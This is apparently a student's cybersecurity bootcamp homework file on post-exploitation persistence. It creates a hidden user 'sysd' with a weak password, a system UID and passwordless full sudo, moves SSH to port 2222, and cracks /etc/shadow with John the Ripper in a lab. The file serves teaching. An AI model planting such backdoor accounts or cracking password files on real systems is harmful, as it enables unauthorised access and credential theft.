 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser sysd`

![descprition](IMAGE/adduser.png)
    

2. Give your secret user a password: 
    - `1234`
    

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 888 sysd`
    

4. Give your secret user the same GID:
   - `sudo groupmod -g 888 sysd`

![descprition](IMAGE/UIDGID.png)
    

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo then in visudo I typed sysd ALL=(ALL:ALL) NOPASSWD:ALL`

    verify no home dir:

![descprition](IMAGE/nohome.png)

   

6. Test that `sudo` access works without your password:

    ```bash
    (ALL : ALL) NOPASSWD: ALL
    ```
![descprition](IMAGE/bash.png)


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 2222
    ```

![descprition](IMAGE/ruffwater.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemcrl restart ssh`

![descprition](IMAGE/listening.png)

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

![descprition](IMAGE/loginhacker.png)

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

![descprition](IMAGE/loginhacker.png)


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john /etc/shadow`

    This was sooooo coooool!

![descprition](IMAGE/john.png)

<br>

this is with --show way cool.

![descprition](IMAGE/waycool.png)

I know it looks like a typo but I ran it again as you can see with shadow not shaow lol.

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

